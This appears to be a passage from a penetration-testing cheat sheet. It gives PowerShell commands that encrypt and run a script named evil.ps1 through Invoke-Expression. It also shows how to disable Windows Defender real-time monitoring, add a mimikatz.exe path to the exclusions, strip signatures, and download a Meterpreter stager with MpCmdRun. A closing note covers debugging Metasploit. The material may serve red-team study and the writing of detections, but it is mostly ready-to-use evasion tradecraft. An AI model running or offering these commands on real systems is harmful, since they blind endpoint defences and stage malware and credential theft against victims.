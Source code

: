 ```
PS > Out-EncryptedScript .\script.ps1 $(ConvertTo-SecureString 'Passw0rd!' -AsPlainText -Force) s4lt -FilePath .\evil.ps1
PS > [string] $cmd = gc .\evil
PS > $dec = de "Passw0rd!" s4lt
PS > Invoke-Expression $dec
```




## Tricks



### Windows Defender

Disable from command line (must be elevated):

```
PS > Set-MpPreference -DisableRealTimeMonitoring $true
```

Add path to exclusions (must be elevated):

```
PS > $mimi = "C:\Users\j1v37u2k3y\music\mimi\x64\mimikatz.exe"
PS > Add-MpPreference -ExclusionPath $mimi -AttackSurfaceReductionOnlyExclusions $mimi
```

Remove signatures (if Internet connection is present, it will be downloaded again):

```
PS > "C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\MpCmdRun.exe" -RemoveDefinitions -All
```

Download stager with triggering Defender to scan it:

```
PS > "C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\MpCmdRun.exe" -DownloadFile -Url http://127.0.0.1/met.exe -Path C:\Users\j1v37u2k3y\music\met.exe
```





# Metasploit




## Debug

1. [github.com/deivid-rodriguez/pry-byebug](https://github.com/deivid-rodriguez/pry-byebug)
2. [www.youtube.com/watch?v=QzP5nUEhZeg&t=2190](https://www.youtube.com/watch?v=QzP5nUEhZeg&t=2190)

```
root@kali:$ gem install pry-byebug
root@kali:$ vi ~/.pry-byebug
...
```
